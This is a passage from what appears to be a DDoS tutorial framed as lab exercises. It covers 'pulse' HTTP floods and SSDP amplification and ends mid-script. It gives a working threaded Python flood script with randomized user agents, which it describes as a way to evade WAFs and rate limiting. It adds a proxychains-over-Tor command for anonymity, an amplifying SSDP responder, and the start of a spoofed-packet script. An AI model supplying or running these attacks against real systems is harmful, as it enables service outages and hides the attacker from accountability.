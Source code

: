 ### d. Application-Layer Pulse Attacks

- **Concept**: Send intermittent, high-intensity HTTP requests to mimic legitimate traffic, bypassing rate-limiting defenses.
- **Real-World Use**: Used by advanced attackers to evade WAFs (e.g., Cloudflare) by blending with normal traffic.
- **Tool**: Custom Python script with randomized timing and user agents.
  ```python
  import requests
  import random
  import time
  import threading
  target_url = "http://<target_IP>/resource-intensive-page"
  user_agents = [
      "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/91.0.4472.124",
      "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) Safari/605.1.15",
      # Add more
  ]
  def pulse_attack():
      while True:
          headers = {"User-Agent": random.choice(user_agents)}
          try:
              requests.get(target_url, headers=headers, timeout=5)
              print("Sent pulse request")
          except:
              pass
          time.sleep(random.uniform(0.5, 2.0))  # Random delay
  for _ in range(20):  # 20 threads
      threading.Thread(target=pulse_attack).start()
  ```
- **Anonymity**:
  - Route through `proxychains` with Tor:
    ```bash
    proxychains python3 pulse_attack.py
    ```
  - Randomize headers (e.g., `Referer`, `Accept-Language`).
- **Lab Exercise**:
  1. Set up a target VM with a resource-intensive page (e.g., a PHP script with database queries).
  2. Run the pulse attack script.
  3. Monitor target’s Apache logs (`/var/log/apache2/access.log`) and CPU usage.
- **Effectiveness**: High. Stealthy and hard to distinguish from legitimate traffic.
- **Weakness Exploited**: Target’s inability to filter sporadic, legitimate-looking requests.

### e. Protocol Exploitation (e.g., SSDP Amplification)

- **Concept**: Exploit protocols like SSDP (Simple Service Discovery Protocol) on UPnP devices to amplify traffic, similar to DNS/NTP amplification.
- **Real-World Use**: Common in IoT-based attacks due to poorly secured devices.
- **Lab Setup**:
  1. Simulate an SSDP server using a Python script on a target VM:
     ```python
     from socket import *
     sock = socket(AF_INET, SOCK_DGRAM)
     sock.bind(("0.0.0.0", 1900))
     while True:
         data, addr = sock.recvfrom(1024)
         if b"M-SEARCH" in data:
             response = b"HTTP/1.1 200 OK\r\nST: upnp:rootdevice\r\nUSN: uuid:1234\r\n" + b"A" * 1000
             sock.sendto(response, addr)
     ```
  2. Send spoofed SSDP requests with Scapy:
     ```python
     from scapy.all import *
     target_ip = "<target_IP>"